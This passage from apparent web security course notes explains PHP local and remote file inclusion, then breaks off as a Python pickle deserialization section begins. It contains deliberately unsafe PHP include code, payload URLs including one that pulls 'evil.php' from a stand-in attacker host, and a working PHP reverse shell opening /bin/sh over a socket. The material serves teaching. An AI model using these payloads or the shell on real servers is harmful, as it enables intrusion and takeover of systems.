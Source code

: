 Payload: `http://example.com/?file=../../uploads/evil.php`

## Remote File Inclusion

Exactly like in the case of **Local File Inclusion**, where the attacker is able to upload a reverse shell on the server, the **Remote File Inclusion** vulnerability lets the attacker include a remote file in the current web application and execute its contents.
This file could be a reverse shell and give the attacker **full system control**.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=index.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - index.php
    include($file);
?>
```

Payload: `http://example.com/?file=http://attacker.example.com/evil.php`

**Note:** Even though some web servers run as **root** (**which is a very bad practice**), most of them run as a special user (**www-data**) which doesn’t have root privileges.
This means that getting a reverse shell on a web server will grant you only the rights of the user running the website.
In order to get root access on the machine, further **privilege escalation** methods should be employed, which you will learn about in a future session.

### Example of a simple reverse shell in PHP

```php
<?php
    $sock = fsockopen("127.0.0.1",1234);
    $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

# Python Insecure Deserialization / `pickle` module

We have looked at so many PHP vulnerabilities in this session, but you shouldn't be left with the impression that PHP is the only vulnerable language.
In this section we will approach an insecure object deserialization in a Python web application.

## Python `pickle`

In Python, the `pickle` module lets you serialize and deserialize data.
Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.

When consulting the Python docs for pickle one cannot miss the following warning:
